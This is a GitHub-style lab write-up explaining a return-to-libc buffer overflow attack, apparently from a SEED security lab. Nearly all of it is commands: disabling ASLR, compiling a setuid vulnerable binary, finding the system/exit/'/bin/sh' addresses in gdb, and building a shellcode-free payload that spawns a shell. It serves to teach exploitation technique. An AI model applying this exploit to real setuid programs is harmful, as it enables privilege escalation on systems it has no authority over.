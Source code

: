# Return-To-LibC-Attack
The Return-To-Libc attack, commonly known as RTL is an attack that is profoundly known for exploiting weaknesses of a Buffer Overflow condition on a system with a non-executable stack. In this type of attack, the attack uses a tactic similar to the typical buffer overflow attack, where the return address is used to redirect the program to a different source [1]. 
But unlike a normal Buffer Overflow attack, RTL uses function provided by inbuilt library i.e. the system() call. The attacker can then overwrite the return address space and assign address of the shell code i.e. ‘/bin/sh’ address in our case. This will allow the attacker to gain access to the command shell and allow him/her to extract information from the system [3].

Now, steps used to perform the attack [1][2][3]:

1. Turn off address randomization
**Command:**
-	$ sudo sysctl -w kernel.randomize_va_space=0
enter password: dees
 kernel.randomize_va_space = 0

2. Set Environment Variables for /bin/sh address
**Command:**
$ export MYSHELL="/bin/sh"

3. Executing the vul.c file to understand the registers and their current addresses
**Command:**
-	$  gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ chmod 4755 vul
-	$ gdb ./vul

 
4. Overflowing the Buffer with all ‘A’ to check ending limit of Return Address(EIP)
**Command:** 
-	$ (python -c 'print "A"*27')> badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
 
5. Extract 'system' & 'exit' addresses by compiling and running the vul.c file once
**Command:**
-	(gdb) r
-	(gdb) p system
 $1 = {<text variable, no debug info>} 0xb7e5f430 <system>
-	(gdb) p exit
 $2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>

6. Extract the address for '/bin/sh' using exp.c file
**Command:**
- $ gcc -g -fno-stack-protector -m32 exp.c -o exp 
- $ gdb ./exp
- (gdb) r

--> Starting program: /home/seed/exp  
    bffffe8f  
    [Inferior 1 (process 4738) exited normally] 

 

7. Now perform the attack by using a python script and concatenation addresses for 'system', 'exit'& '/bin/sh'
**Command:**
-	$ (python -c'print "A"*23 +"\x30\xf4\xe5\xb7"+"\xb0\x2f\xe5\xb7"+"\x8f\xfe\xff\xbf"')>badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) r

--> Starting program: /home/seed/vul 
Read from file: AAAAAAAAAAAAAAAAAAAAAAA0�巰/巏��� 
$

8. Now, in order to execute the attack even when the kernel is generating random addresses, use following commands along with commands from steps 1-7
**Commands:**
-	$ sudo sysctl -w kernel.randomize_va_space=2
enter password: dees
--> kernel.randomize_va_space = 2
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) set disable-randomization off
-	(gdb) r

Here, we use set disable-randomization off command to bypass the kernel address randomization inside the gdb debugger.

